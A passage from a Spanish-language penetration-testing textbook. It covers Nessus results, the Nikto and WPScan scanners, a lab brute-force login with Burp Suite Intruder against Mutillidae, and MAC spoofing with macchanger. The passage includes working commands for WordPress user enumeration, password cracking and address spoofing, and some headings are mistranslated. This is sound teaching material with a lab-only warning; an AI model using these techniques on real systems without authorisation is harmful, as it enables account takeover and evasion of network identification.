Puedes encontrar más información sobre CVSS en el sitio web de FIRST en https://www.first.org/cvss/ .

En esta sección, aprendió sobre los distintos formatos para exportar resultados de Nessus, los beneficios de exportar informes sin conexión y los tipos de informes. En la próxima sección, analizaremos en profundidad los resultados que ofrece Nessus.


## Análisis de los resultados de Nessus

Crear y ejecutar un análisis de vulnerabilidades con Nessus es bastante fácil; sin embargo, la mentalidad de un profesional de la ciberseguridad es más necesaria durante la fase de análisis. Nessus facilita el análisis de los resultados. Cuando se haya completado un análisis, podrá ver la lista de vulnerabilidades encontradas seleccionando la pestaña Vulnerabilidades, como se muestra en la siguiente captura de pantalla:



Ahora podemos ver una lista de vulnerabilidades encontradas en el objetivo. Nessus nos proporciona la clasificación de gravedad, el nombre de la vulnerabilidad y la cantidad encontrada:



Para obtener más detalles sobre una vulnerabilidad, haz clic en la vulnerabilidad específica, como la resaltada en la captura de pantalla anterior. Nessus le proporcionará una descripción detallada de la vulnerabilidad seleccionada, la información de riesgo, los detalles del complemento, la solución y la referencia externa, como se muestra en la siguiente captura de pantalla:



Con esta información, un evaluador de penetración puede identificar rápidamente los puntos más débiles de un objetivo y limitar el alcance al elegir cargas útiles para explotar el objetivo.

Ahora que ya tiene una comprensión sólida de Nessus y sus capacidades, en la siguiente sección, utilizaremos varios escáneres de aplicaciones web para ayudarnos a detectar vulnerabilidades web en un servidor de destino.


## Uso de escáneres de aplicaciones web

Los escáneres de aplicaciones web se centran principalmente en detectar e identificar vulnerabilidades en servidores web, sitios web y aplicaciones web. En su carrera en ciberseguridad, ya sea como evaluador de penetración o como profesional de seguridad, es posible que se le asigne la tarea de realizar algún tipo de auditoría de seguridad en un sitio web o servidor web de destino.

Sin embargo, como evaluadores de penetración, debemos ser capaces de descubrir errores de configuración y debilidades de seguridad en un sitio web y servidor web de destino. Una organización puede contratarlo para realizar una prueba de penetración en su sitio web en lugar de en su red, o incluso en ambos. Recuerde que el objetivo de realizar una prueba de penetración en un objeto como un sitio web es identificar las vulnerabilidades y remediarlas lo antes posible antes de que un pirata informático real pueda comprometer el sistema y extraer datos.

Hay muchos escáneres de aplicaciones web disponibles en el mercado, desde comerciales hasta gratuitos y de código abierto; aquí se muestran algunos de ellos:

- Escáner de vulnerabilidades de Acunetix (comercial)
- w3af (gratis)
- Nikto (gratis)
- Burp Suite (comercial y gratuita)
- IBM AppScan (comercial)

En las secciones restantes de este capítulo, cubriremos varios ejercicios utilizando Nikto, WPScan y Burp Suite para detectar e identificar vulnerabilidades de seguridad en un servidor web de destino.

Profundicemos en el aprendizaje sobre Nikto en la siguiente sección.

## Nikto

Nikto es un escáner de vulnerabilidades web de código abierto muy popular y está preinstalado en Kali Linux. Esta herramienta de línea de comandos es capaz de identificar fallas de seguridad en un sitio web de destino y brindar referencias detalladas para cada problema encontrado. Nikto no es una herramienta orientada al sigilo y puede ser un poco ruidoso mientras realiza su análisis.

Algunas de sus características son las siguientes:

- Comprobación de componentes obsoletos en un servidor web
- Capaz de identificar aplicaciones instaladas a través de encabezados y archivos en un destino
- Compatibilidad con SSL
- Realiza adivinanzas de subdominio
- Enumeración de nombres de usuario de Apache

Para comenzar a usar Nikto, realizaremos un análisis de vulnerabilidades web en nuestra máquina virtual Metasploitable. Si recuerdas, en el capítulo anterior, realizamos un análisis de puertos en Metasploitable y vimos que el puerto 80estaba abierto. De manera predeterminada, los servidores web abren el puerto 80para permitir la comunicación entrante y saliente entre un cliente y el servidor web.

Abrimos una nueva ventana de terminal utilizando la nikto -h <target>sintaxis, donde -hespecifica un host (nombre de host o dirección IP). Usamos el nikto -h 10.10.10.100comando:



Si proporciona un nombre de host, Nikto podrá realizar una búsqueda de IP a través del **Sistema de nombres de dominio** (**DNS**). Durante la fase inicial, Nikto intenta realizar una identificación del sistema operativo y de la versión del servicio; nuestro objetivo es utilizar Ubuntu como sistema operativo y Apache 2.2.8 como aplicación de servidor web.

**Nikto** se puede encontrar en la pestaña Aplicaciones | 02 – Análisis de vulnerabilidad en Kali Linux.

Cada punto de la salida es una indicación de un problema que Nikto ha detectado, ya sea que falte una configuración, se haya encontrado acceso a un directorio o archivo confidencial o incluso que una versión de la aplicación esté desactualizada. Para cada problema de seguridad encontrado, se asocia un ID de referencia **de la base de datos de vulnerabilidades de código abierto** (**OSVDB**) con el problema. La OSVBD es una base de datos independiente y de código abierto que contiene información sobre las vulnerabilidades de seguridad de las aplicaciones web. Una vez que Nikto puede identificar una falla de seguridad en un objetivo, proporciona un ID de referencia de OSVDB asociado. Una vez que se haya obtenido el ID de OSVDB, Puedes dirigirse a http://cve.mitre.org/data/refs/refmap/source-OSVDB.html para hacer referencia a los ID de OSVDB con entradas CVE.

Puedes encontrar más información sobre Nikto en https://cirt.net/Nikto2 y https://github.com/sullo/nikto .

Ahora que tienes las habilidades esenciales para usar Nikto, echemos un vistazo al uso de WPScan en la siguiente sección.

## Escaneo WPS

Crear un sitio web para una empresa implica mucha programación y trabajo. Existen muchos **sistemas de gestión de contenido** (**CMS**) que permiten crear, administrar y publicar un sitio web con bastante facilidad. Imagínate tener que codificar de forma estática lenguajes web para varias páginas de un sitio web o varios sitios web; esta sería una tarea abrumadora que requeriría un buen conocimiento de lenguajes web. Un CMS permite a un administrador web administrar y actualizar fácilmente el contenido de un sitio web sin problemas y, al mismo tiempo, poder integrar complementos web de terceros adicionales, lo que permite una mayor funcionalidad para los usuarios.

Hay muchos CMS disponibles; aquí hay algunos de ellos:

- WordPress
- Joomla
- Drupal
- Plone

En Internet, uno de los CMS más populares que se utilizan actualmente es WordPress. Ya seas un bloguero, un profesional independiente, una empresa emergente o una gran organización, muchas personas utilizan WordPress como su opción preferida para un CMS. WordPress es un CMS de código abierto que se basa en MySQL y PHP. Dado que WordPress es muy popular en Internet, utilizaremos la herramienta **WPScan** de Kali Linux para buscar vulnerabilidades web en un servidor web de WordPress.

Para comenzar, deberá instalar un servidor WordPress dentro de su entorno de laboratorio virtual. Para ello, siga estos pasos:

1. Vaya a https://www.turnkeylinux.org/wordpress y descargue la imagen ISO o el archivo de VM (usar los archivos de máquina virtual es más fácil para configurar la VM).
2. Una vez instalado dentro de su hipervisor, asegúrate de que las configuraciones de red estén habilitadas para la misma red que su máquina Kali Linux.
3. Encienda la máquina virtual WordPress. Recibirá una dirección IP automáticamente del servicio **de Protocolo de configuración dinámica de host** (**DHCP**) dentro del hipervisor.
4. Usando su máquina Kali Linux, realice un escaneo de red y puerto para identificar la dirección IP del servidor WordPress.
5. Ingrese la dirección IP en el navegador web Kali Linux y debería ver la página web predeterminada de WordPress.

1. Al usar la http://<ip address>/wp-login.php URL se mostrará la página de inicio de sesión del administrador como se muestra en la siguiente captura de pantalla:



Esta es la página de inicio de sesión predeterminada para los servidores de WordPress.

Opcionalmente, la herramienta WPScan se puede encontrar en la pestaña Aplicaciones | 03 – Análisis de aplicaciones web | Identificación de CMS y marco dentro del menú de Kali Linux.

En su máquina Kali Linux, vamos a realizar un análisis de vulnerabilidad en el servidor web WordPress usando el wpscan --url <target IP or hostname>comando:



WPScan proporcionará la plataforma del servidor; en nuestro caso, es Apache.

A continuación, intentará descubrir y enumerar todas las vulnerabilidades conocidas encontradas y proporcionar soluciones y referencias para cada una, como se muestra en la siguiente captura de pantalla:



WPScan no es solo un escáner de vulnerabilidades para WordPress, sino que también tiene la capacidad de realizar una enumeración de cuentas de usuario. Intentemos extraer las cuentas de usuario en nuestro servidor WordPress; use el wpscan --url 10.10.10.100 -e u vpcomando para realizar la enumeración de usuarios:



Como se vio en nuestros resultados, se descubrió al admin usuario . A continuación, podemos intentar descifrar la contraseña de la admincuenta mediante la técnica de fuerza bruta.

Para crear una lista de palabras personalizada para descifrar contraseñas, Puedes utilizar la herramienta **Crunch** con Kali Linux. Además, Puedes descargar una lista de palabras de Internet. Una buena fuente es https://github.com/danielmiessler/SecLists .

Para realizar el descifrado de contraseñas usando WPScan con una lista de palabras sin conexión (la nuestra se llama custom_list.txt), usamos el wpscan --url 10.10.10.100 -e u --passwords custom_list.txtcomando.

En el siguiente fragmento, pudimos descifrar la contraseña de la cuenta de usuario:



Como el evaluador de penetración ha obtenido el nombre de usuario y la contraseña, la cuenta está comprometida. Ahora podemos iniciar sesión en el panel de control del servidor de WordPress para realizar varias acciones maliciosas.

El descifrado de contraseñas puede ser un proceso que consume mucho tiempo y puede llevar desde unos minutos hasta unas horas para completarse.

Al completar esta sección, habrá adquirido las habilidades necesarias para realizar una evaluación de vulnerabilidades en un servidor WordPress con WPScan. En la siguiente sección, aprenderemos sobre otra herramienta de evaluación de vulnerabilidades web, Burp Suite.

## Suite para eructos

Burp Suite ( https://portswigger.net/burp ) es un escáner de vulnerabilidades de aplicaciones web **con interfaz gráfica de usuario** (**GUI**) que tiene la capacidad de identificar más de 100 vulnerabilidades genéricas, como todas las vulnerabilidades que se encuentran en la lista de los 10 principales riesgos críticos de seguridad de aplicaciones web de OWASP.

La lista de los 10 mejores proyectos de OWASP se puede encontrar en https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2017_Project .

Las aplicaciones de Burp Suite permiten a un evaluador de penetración interceptar todas las solicitudes y respuestas HTTP y HTTPS entre el servidor web (aplicación web) y el navegador, a través de su componente proxy HTTP. Al interceptar el tráfico web, Burp Suite puede probar varios tipos de vulnerabilidades y ataques, como fuzzing, ataques de contraseñas por fuerza bruta, decodificación, obtención de URL ocultas mediante rastreo y mucho más.

Antes de comenzar a utilizar Burp Suite, asegúrate de que su máquina virtual OWASP **Broken Web Applications** (**BWA**) (máquina víctima) esté en línea y haya recibido una dirección IP.

Una vez que la máquina virtual OWASP BWA esté en línea, debería aparecer la siguiente pantalla; sin embargo, los detalles de su dirección IP pueden ser diferentes de lo que se muestra:



En su máquina Kali Linux, asegúrate de que haya conectividad de extremo a extremo haciendo ping a la máquina virtual OWASP BWA. Una vez que haya verificado la conectividad, es momento de abrir la aplicación Burp Suite.

Para completar esta tarea, utiliza las siguientes instrucciones:

1. Ir a Aplicaciones | 03 – Análisis de aplicaciones web | Proxies de aplicaciones web | Burp Suite .
2. Ahora que la aplicación está abierta, el asistente le preguntará si desea crear un Proyecto temporal, un Nuevo proyecto en el disco o Abrir proyecto existente .
3. Seleccione Proyecto temporal y haz clic en Siguiente :



1. La siguiente ventana le preguntará si Burp Suite debe utilizar la configuración predeterminada o cargar las configuraciones desde un archivo. Seleccione la opción Usar valores predeterminados de Burp y haz clic en Iniciar Burp para iniciar el panel de usuario:



Burp Suite no supervisa ni intercepta el tráfico enviado entre su navegador web y el servidor web de destino. Burp Suite contiene un proxy HTTP que permite a la aplicación interceptar el tráfico HTTP entre un navegador web y un servidor web de destino. El navegador web no interactúa directamente con el servidor web; el tráfico se envía desde el navegador web al proxy HTTP de Burp Suite, luego el proxy HTTP reenvía el tráfico al servidor web de destino y viceversa. El siguiente es un diagrama que muestra el flujo de tráfico entre un navegador web y un servidor web:



Burp Suite funciona como una aplicación proxy de interceptación. De forma predeterminada, Burp Suite no puede interceptar ningún tráfico entre nuestra máquina Kali Linux y la máquina virtual OWASP BWA. Para configurar nuestro navegador web para que funcione con Burp Suite, siga las siguientes instrucciones:

1. Abra Firefox y haz clic en el ícono de menú | Preferencias ( Opciones ).
2. En la pestaña predeterminada, desplácese hacia abajo hasta que vea la configuración de Proxy de red ( Configuración de red ) y haz clic en Configuración.
3. Seleccione Configuraciones de proxy manuales y utiliza las configuraciones que se muestran en la siguiente captura de pantalla:



Asegúrate de que el campo Sin proxy esté en blanco.

1. Haz clic en Aceptar para guardar su configuración en Firefox.

Ahora que hemos configurado nuestro navegador web para que funcione con el servicio de proxy HTTP de Burp Suite, volvamos a la aplicación de Burp Suite para permitir la interceptación de tráfico. Para ello, siga estos pasos:

1. Haz clic en Proxy | Interceptar y haz clic en el ícono Interceptar está activado para activar o desactivar:



Asegúrate de que sus configuraciones estén establecidas correctamente o el ejercicio no funcionará como está previsto.

Si el icono de Interceptar indica que está activado, Burp Suite puede interceptar el tráfico entre el navegador web y el servidor web. Además, asegúrate de reenviar las solicitudes; de lo contrario, permanecerán dentro del interceptor y no se reenviarán, y eventualmente la solicitud caducará.

1. A continuación, introduzca la dirección IP de la máquina virtual OWASP BWA en la barra de direcciones de Firefox en su máquina Kali Linux. La página web predeterminada debería cargarse perfectamente. En Burp Suite, haz clic en Destino | Mapa del sitio para ver las solicitudes y respuestas HTTP:



1. En el navegador web, ingrese la URL (o dirección IP) de la máquina virtual OWASP BWA. Las solicitudes y respuestas HTTP aparecerán en la pestaña Destino | Mapa del sitio en Burp Suite.

Ahora que hemos explicado cómo interceptar el tráfico web con Burp Suite, vayamos un paso más allá para realizar un ataque ofensivo en nuestra máquina Metasploitable. En la siguiente sección, utilizaremos Burp Suite para realizar un ataque de fuerza bruta.

## Uso de Intruder para la fuerza bruta

El componente/módulo Intruder de Burp Suite permite que un evaluador de penetración realice ataques de contraseñas en línea mediante el método de fuerza bruta. Intentemos obtener la contraseña para iniciar sesión en la http://<target ip addr>/mutillidaeURL:

1. Con el navegador web Firefox, haz clic en Mutillidae II . En Burp Suite, debería ver la mutillidae carpeta debajo del panel izquierdo de la pestaña Mapa del sitio .
2. A continuación, haz clic derecho en la mutillidaecarpeta y selecciona Agregar al alcance como se muestra en la siguiente captura de pantalla:



1. Aparecerá la siguiente ventana de registro del historial del proxy ; simplemente haz clic en Sí :



1. Para verificar que nuestro alcance se haya agregado correctamente, vaya a la pestaña Objetivo | Alcance :



1. Ahora que se agregó el alcance, regrese a su navegador web. En la parte superior de la página web de Mutillidae, verá un enlace que permite que un usuario realice intentos de inicio de sesión. Use adminpara el nombre de usuario y passwordla contraseña. El intento de inicio de sesión debería fallar; sin embargo, necesitamos que Burp Suite capture detalles específicos sobre el campo de inicio de sesión en la página web.

Regresemos a Burp Suite para continuar con nuestro ejercicio.

1. En Burp Suite, haz clic en la pestaña Proxy | Historial HTTP y selecciona el mensaje HTTP **POST**#, que contiene el intento de inicio de sesión desde nuestro navegador (su mensaje puede ser diferente al que se muestra en el siguiente fragmento). Una vez seleccionado, haz clic derecho y elija Enviar a intruso :



1. A continuación, haz clic en la pestaña Intruso | Objetivo para ver la dirección IP de destino que se ha configurado:



Dentro de la pestaña Intruso, hay algunas subpestañas, incluidas las siguientes:

- - Objetivo: le permite establecer un objetivo y un número de puerto específicos.
  - Posiciones: le permite seleccionar dónde se insertará una carga útil en la solicitud HTTP.
  - Cargas útiles: proporciona la capacidad de configurar el tipo de carga útil.
  - Opciones: se pueden configurar opciones adicionales en esta pestaña.

1. Seleccione la pestaña Posiciones y haz clic en el botón Borrar para borrar todas las selecciones. De manera predeterminada, Burp Suite ha seleccionado ciertas áreas del mensaje de solicitud HTTP para insertar su carga útil. Sin embargo, para nuestro ejercicio, la carga útil se insertará en el campo de contraseña.
2. Resalte la palabra passwordy haz clic en Agregar . Esto permitirá que Burp Suite inserte su carga útil en el campo seleccionado:



El texto en rojo son los datos enviados desde el navegador al servidor web. Como puedes ver, la palabra passwordes el valor que usamos durante nuestro intento de inicio de sesión.

1. Haz clic en la pestaña Cargas útilesadmin . Ingrese en el campo de texto y haz clic en Agregar ; esta será nuestra carga útil personalizada:



Asegúrate de dejar todo lo demás como predeterminado en las partes restantes de las pestañas Cargas útiles y Opciones .

1. Cuando esté listo para lanzar la carga útil, haz clic en Iniciar ataque :



Cuando se haya completado el ataque, Intruder abrirá una nueva ventana para proporcionar un resumen. En la pestaña Resultados, observe que tenemos un mensaje de solicitud HTTP con un código de estado 302 ; esto significa que se produjo una redirección HTTP. En otras palabras, Intruder pudo iniciar sesión correctamente en Mutillidae. Los detalles se pueden ver en la siguiente captura de pantalla con usernamey password:



Al seleccionar el mensaje de solicitud HTTP con el código de estado **302**, verá los mensajes usernamey passwordque se enviaron desde el navegador web en la pestaña Solicitud .

1. Para ver la respuesta del servidor web, haz clic en la pestaña Respuesta | Procesar . Aquí podrá ver cómo respondió la aplicación web a la carga útil:



Si observa con atención, verá que la admincuenta de usuario inició sesión correctamente. Tenga en cuenta que la cuenta de usuario que se muestra en la captura de pantalla anterior es la cuenta de administración predeterminada para la máquina virtual Metasploitable, que es vulnerable de forma intencionada. Además, no intente ningún tipo de ataque a dispositivos o redes en los que no haya obtenido permiso legal para hacerlo. Este ejercicio se realizó en un entorno de laboratorio.

El *libro de recetas Burp Suite* de Sunny Wear contiene muchas recetas para realizar evaluaciones basadas en la web. Este título se puede encontrar en https://www.packtpub.com/networking-and-servers/burp-suite-cookbook .

Como habrás visto, Burp Suite es una aplicación muy potente para realizar pruebas de penetración web y evaluaciones de vulnerabilidad. Esta herramienta debería formar parte de tu lista de herramientas a las que recurrir siempre que tengas que realizar una auditoría de seguridad en un servidor web y un sitio web.


## Resumen

Durante el transcurso de este capítulo, analizamos la necesidad de descubrir debilidades de seguridad en un sistema e incluso en un servidor web. Analizamos cómo realizar análisis de vulnerabilidades, personalizar políticas y generar informes con Nessus. Además, aprendimos sobre Nikto, un escáner de vulnerabilidades web de código abierto, y cómo usar WPScan para detectar configuraciones de seguridad incorrectas y fallas en WordPress. Por último, cerramos el capítulo abordando los aspectos básicos del uso de las aplicaciones de Burp Suite y la realización de un intento de fuerza bruta para ingresar a un sitio web.

Al completar este capítulo, ahora tendrá la capacidad de realizar con éxito una evaluación de vulnerabilidad en una red y un sistema de destino utilizando Nessus, y realizar pruebas de penetración de sitios web utilizando Burp Suite, Nikto y WPScan.

Espero que este capítulo le haya resultado informativo y le ayude en su camino hacia la ciberseguridad. En el próximo capítulo, exploraremos los conceptos básicos de las pruebas de penetración inalámbricas.


## Preguntas

Las siguientes son algunas preguntas basadas en los temas que hemos cubierto en este capítulo:

1. Después de instalar Nessus en Kali Linux, ¿qué comando se utiliza para habilitar el servicio Nessus?
2. Muchas instituciones financieras ofrecen a sus clientes la funcionalidad de pago con tarjeta. Para garantizar que la institución cumpla con los estándares del sector, ¿qué marco se debe utilizar?
3. ¿Qué tipos de informes se pueden exportar desde Nessus?
4. ¿Puedes nombrar dos o tres escáneres de vulnerabilidad web que estén preinstalados en Kali Linux?
5. ¿Qué herramienta se puede utilizar para escanear sitios web de WordPress en busca de vulnerabilidades de seguridad?


## Otras lecturas

-  Para obtener más información sobre Nessus, visite https://www.tenable.com/products/nessus/nessus-professional .
- Puedes encontrar más información sobre PCI DSS en el sitio web del Security Standards Council en https://www.pcisecuritystandards.org/ .


# Comprensión de las pruebas de penetración en la red

Durante la fase de preparación de una prueba de penetración de red, es esencial comprender el objetivo de la prueba de seguridad en los sistemas y/o la infraestructura de red del objetivo. Antes de lanzar cualquier tipo de simulación de ataque, es importante ser un usuario anónimo (o simular ser un usuario legítimo) en la red falsificando la dirección MAC de su dispositivo y configurando su adaptador de red inalámbrica para monitorear y capturar el tráfico inalámbrico en una red inalámbrica IEEE 802.11.

Las pruebas de penetración de red se centran en obtener acceso a una red y realizar auditorías de seguridad (pruebas de penetración) en dispositivos, sistemas y dispositivos de seguridad de red dentro de la red interna de una organización de destino. En este capítulo, aprenderá sobre los distintos modos que se pueden configurar en un adaptador inalámbrico en Kali Linux, cómo falsificar su dirección MAC y cómo capturar paquetes en una red inalámbrica.

En este capítulo cubriremos los siguientes temas:

- Introducción a las pruebas de penetración en la red
- Entendiendo la dirección MAC
- Cómo conectar un adaptador inalámbrico a Kali Linux
- Gestión y monitorización de modos inalámbricos


## Requerimientos técnicos

Los siguientes son los requisitos técnicos para este capítulo:

- Kali Linux ( https://www.kali.org/ )
- Estación de trabajo VMware o Oracle VM VirtualBox
- **Una tarjeta** **de interfaz de red** inalámbrica (**NIC**) que admite la inyección de paquetes


No todas las tarjetas inalámbricas admiten el modo de monitor y la inyección de paquetes. Sin embargo, una pequeña revisión en un chipset puede provocar que la tarjeta no funcione en modo de monitor, y es posible que algunas tarjetas necesiten que se compilen los controladores y no funcionen de inmediato.

La siguiente es una lista de NIC inalámbricas externas compatibles con Kali Linux:

- Atheros: ATH9KHTC (AR9271, AR7010)
- Enlace de radio: RT3070
- Realtek: RTL8192CU
- TP-Link TL-WN722N
- TP-Link TL-WN822N versión 1 - versión 3
- Redes Alfa AWUS036NEH
- Redes Alfa AWUS036NHA
- Redes Alfa AWUSO36NH

Personalmente recomendaría utilizar la tarjeta **Alfa Networks AWUS036NHA** .


## Introducción a las pruebas de penetración en la red

El objetivo de las pruebas de penetración de red es descubrir cualquier vulnerabilidad de seguridad en la infraestructura de red de un objetivo. Este tipo de prueba de penetración se puede realizar desde fuera de la organización (prueba externa) o desde dentro (prueba interna). Como evaluador de penetración, definitivamente recomendaría realizar pruebas de seguridad internas y externas en la red del objetivo.

Los siguientes son algunos objetivos de las pruebas de penetración de red:

- Evitar el firewall perimetral
- Sistema de detección de intrusiones que evade **/ Sistema de prevención** (**IDS/IPS**)
- Prueba de configuración incorrecta de enrutamiento y conmutación
- Detección de puertos y servicios de red abiertos innecesariamente
- Cómo encontrar directorios e información confidencial

Realizar pruebas de penetración de red ayuda a los profesionales de TI a cerrar puertos de red innecesarios, deshabilitar servicios, solucionar problemas y configurar dispositivos de seguridad de una mejor manera para mitigar las amenazas.


Durante una prueba de penetración de red externa, el evaluador de penetración intenta acceder a la red de la organización de destino a través de Internet violando el firewall y cualquier IDS/IPS. Sin embargo, una prueba de penetración de red interna implica realizar pruebas de seguridad desde dentro de la red de la organización, que ya está detrás del dispositivo de firewall perimetral.

Los siguientes son los seis pasos que se deben seguir en el proceso de prueba de penetración de red:

1. Recopilación de información
2. Escaneo de puertos
3. Huellas digitales de SO y servicios
4. Investigación de vulnerabilidad
5. Verificación de exploits
6. Informes

En la siguiente sección, cubriremos brevemente los diferentes enfoques para las pruebas de penetración.

## Tipos de pruebas de penetración

Los siguientes son tres tipos de pruebas de seguridad que suelen realizar los evaluadores de penetración:

- **Caja blanca**: las pruebas de caja blanca implican tener un conocimiento completo ( incluidos diagramas de red, esquemas de direcciones IP y otra información ) sobre la red y los sistemas antes de la prueba de penetración de la red. Este tipo de prueba es mucho más fácil que las pruebas de caja gris y caja negra, ya que el evaluador de penetración no necesita realizar ningún tipo de recopilación de información sobre la red y los sistemas de destino.
- **Caja gris**: en las pruebas de caja gris, el evaluador de penetración recibe un conocimiento limitado sobre la infraestructura y los sistemas de red de la organización antes de la prueba de penetración de la red.
- **Caja negra**: en las pruebas de caja negra, el evaluador de penetración no recibe ningún conocimiento previo sobre la organización objetivo ni sobre su red y su sistema. La información que se proporciona sobre la organización objetivo suele ser solo el nombre de la organización.

Ahora que hemos completado esta sección introductoria a las pruebas de penetración de red, profundicemos en los aspectos esenciales para comprender la dirección MAC.


## Entendiendo la dirección MAC

En el campo de las redes, existen dos modelos a los que los profesionales de redes suelen hacer referencia durante la resolución de problemas. Estos modelos se conocen como el modelo de referencia **de interconexión de sistemas abiertos** (**OSI**) y la pila de **protocolo de control de transmisión/protocolo de Internet** (**TCP/IP**).

La siguiente tabla describe las capas de cada modelo y muestra el modelo OSI, **las unidades de datos de protocolo** (**PDU**) y el conjunto de protocolos TCP/IP:



A menudo, los términos **paquetes** y **tramas** se utilizan indistintamente, pero existe una diferencia entre ellos. Centrémonos un poco más en las características de una trama y su composición.

En esta sección, nos centraremos en la capa de enlace de datos (capa 2) del modelo OSI. La capa de enlace de datos es responsable de mover datos entre las aplicaciones de software en los dispositivos a la capa física de una red. Esto lo hace la NIC. Además, antes de que los datos se coloquen en la capa física, la capa de datos inserta la dirección física de la NIC, es decir, la dirección **de control de acceso al medio** (**MAC**), en la trama. Esta dirección a veces se conoce como **dirección grabada** (**BIA**).

La dirección MAC de un dispositivo tiene una longitud de 48 bits y se escribe en formato hexadecimal; por lo tanto, cada carácter varía entre 0-9 y AF. Los primeros 24 bits se conocen como el **identificador único organizacional** (**OUI**) y son asignados por el **Instituto de Ingenieros Eléctricos y Electrónicos** (**IEEE**) a los proveedores y fabricantes. Al tener conocimiento de los primeros 24 bits de cualquier dirección MAC válida, Puedes determinar el proveedor/fabricante de la NIC y/o dispositivo. Los últimos 24 bits son únicos y los asigna el proveedor, creando así una dirección MAC única para cada dispositivo.

A continuación se muestra un desglose de una dirección MAC:



Para ver la dirección MAC en Windows, use el ipconfig /allcomando:



Sin embargo, en un sistema operativo basado en Linux, es necesario utilizar el comando `ifconfig`:



Ahora tenemos una mejor idea del propósito de la dirección MAC en un dispositivo y una red. Ahora, analicemos en profundidad cómo cambiar (falsificar) nuestra dirección MAC en Kali Linux.


## Cómo falsificar la dirección MAC

**La suplantación de identidad** es una forma de suplantación de identidad en una red; oculta su identidad como evaluador de penetración. Todo el tráfico que salga de su máquina Kali Linux contendrá la dirección MAC recién configurada de la fuente.

En este ejercicio, vamos a cambiar la dirección MAC de la interfaz LAN en nuestra máquina Kali Linux. Siga estos sencillos pasos para hacerlo:

1. Desactive la interfaz de red utilizando el siguiente comando:

```markup
ifconfig eth0 down

```

1. Una vez que la interfaz está inactiva, podemos usar la macchangerherramienta para modificar nuestra dirección MAC en la interfaz. La macchangerherramienta le permite personalizar su nueva dirección (falsificada). Para ver todas las opciones disponibles, use el macchanger --help comando.
2. Para cambiar la dirección MAC en nuestra interfaz Ethernet (red), usaremos el macchanger --random eth0 comando, como se muestra en la siguiente captura de pantalla:



1. Una vez que la dirección MAC se haya cambiado correctamente, es momento de activar la interfaz Ethernet mediante el siguiente comando:

```markup
ifconfig eth0 up

```

1. Finalmente, ahora podemos usar el comando `ifconfig` para verificar si la nueva dirección MAC está registrada en la interfaz, como se muestra en la siguiente captura de pantalla:



Una vez completado este ejercicio, ya podrás falsificar la dirección MAC en cada interfaz de red en Kali Linux. En la siguiente sección, aprenderemos a conectar un adaptador inalámbrico a una máquina Kali Linux.


## Cómo conectar un adaptador inalámbrico a Kali Linux

Durante una prueba de penetración de red inalámbrica, se le solicitará que conecte una NIC inalámbrica externa a su máquina Kali Linux. Si tiene Kali Linux instalado directamente en una unidad de disco, conectar una NIC inalámbrica es tan simple como conectarla a través de USB. El adaptador estará presente automáticamente en la configuración de red.

Sin embargo, las cosas pueden complicarse un poco al utilizar máquinas virtuales. En esta sección, demostraré cómo conectar un adaptador de red inalámbrica a **VMware Workstation** y **Oracle VM VirtualBox** .

Si está utilizando VMware Workstation, siga estos pasos:

1. Primero, seleccione la máquina virtual Kali Linux y haz clic en Editar configuración de la máquina virtual :



1. A continuación, se abrirá la configuración de la máquina virtual, que le proporcionará una serie de opciones para agregar, eliminar y modificar los recursos de hardware emulados. Seleccione el **controlador USB** ; las opciones aparecerán a la derecha de la ventana. Seleccione la versión USB adecuada en función de los controladores USB físicos de su computadora y asegúrate de que la casilla de verificación Mostrar **todos los dispositivos de entrada USB esté** marcada :



1. Ahora que ha terminado, haz clic en **Aceptar** para guardar la configuración. Encienda la máquina virtual Kali Linux y conecte el adaptador inalámbrico a un puerto USB disponible en su computadora.

En la esquina inferior derecha de VMware Workstation, verá algunos íconos. Estos íconos representan un componente o dispositivo de hardware físico. Los íconos descoloridos indican que el hardware o dispositivo no está conectado a la máquina virtual, mientras que los íconos de colores brillantes indican que el componente o dispositivo está conectado.

1. Haz clic en el icono USB resaltado en la siguiente captura de pantalla. Aparecerá un menú que ofrece la opción de conectar un dispositivo USB desde su máquina host a la máquina virtual. Seleccione el adaptador inalámbrico:


1. Una vez que el adaptador inalámbrico USB se haya conectado correctamente, el ícono debería estar brillante. Ahora es el momento de verificar si Kali Linux puede ver el adaptador inalámbrico. Abra una terminal y ejecute el comando `ifconfig`:



Todos los adaptadores inalámbricos se representan como wlan, seguido de un número. Nuestro adaptador inalámbrico es wlan0.

Para quienes utilizan **Oracle VM VirtualBox**, el proceso es un poco similar al que se mencionó anteriormente para VMware. Utiliza los siguientes pasos para completar este ejercicio de conexión de un adaptador inalámbrico a Kali Linux a través del hipervisor:

1. Para comenzar, seleccione la máquina virtual Kali Linux dentro del panel de control y haz clic en **Configuración**:



1. Una vez que se haya abierto el menú de configuración, seleccione la categoría **USB** en la columna de la izquierda. Asegúrate de que el adaptador inalámbrico esté conectado a un puerto USB de su computadora y, de manera similar a lo que hicimos para VMware Workstation, seleccione la versión **del controlador USB 2.0 (EHCI)** .
2. A continuación, haz clic en el icono **USB** con el símbolo + al lado para conectar un dispositivo USB a la máquina virtual. Seleccione el adaptador inalámbrico USB:


El adaptador inalámbrico se insertará en el campo **Filtros de dispositivos USB**, como se muestra en la siguiente captura de pantalla:


1. Haz clic en **Aceptar** para guardar la configuración de la máquina virtual. Encienda la máquina virtual Kali Linux y utiliza el comando `ifconfig` para verificar el estado del adaptador inalámbrico.

Al completar esta sección, habrá adquirido las habilidades necesarias para conectar correctamente un adaptador inalámbrico a una máquina virtual Kali Linux. En la siguiente sección, veremos cómo administrar y monitorear los modos inalámbricos en Kali Linux.


## Gestión y monitorización de modos inalámbricos

El sistema operativo Linux permite a los usuarios configurar manualmente el modo de funcionamiento de los adaptadores inalámbricos.

A continuación se detallan los diferentes modos y explicaciones de lo que implican:

- **El modo ad hoc** se utiliza para interconectar varios dispositivos finales, como computadoras portátiles, sin el uso de un enrutador inalámbrico o un punto de acceso.
- El modo de funcionamiento predeterminado es **administrado** . Este modo permite que el dispositivo (es decir, el host) se conecte a enrutadores y puntos de acceso inalámbricos. Sin embargo, en ocasiones, es posible que se le solicite que realice una prueba de penetración inalámbrica en la red Wi-Fi de una organización. Un adaptador inalámbrico en modo administrado no es adecuado para dicha tarea.
- **El modo maestro** permite que el dispositivo Linux funcione como un punto de acceso para permitir que otros dispositivos sincronicen datos.
- **El modo repetidor** permite que el dispositivo de nodo reenvíe paquetes a otros nodos de la red; los repetidores generalmente se implementan para ampliar el alcance de una señal inalámbrica.
- **El modo secundario** permite que el dispositivo funcione como respaldo del maestro o repetidor.
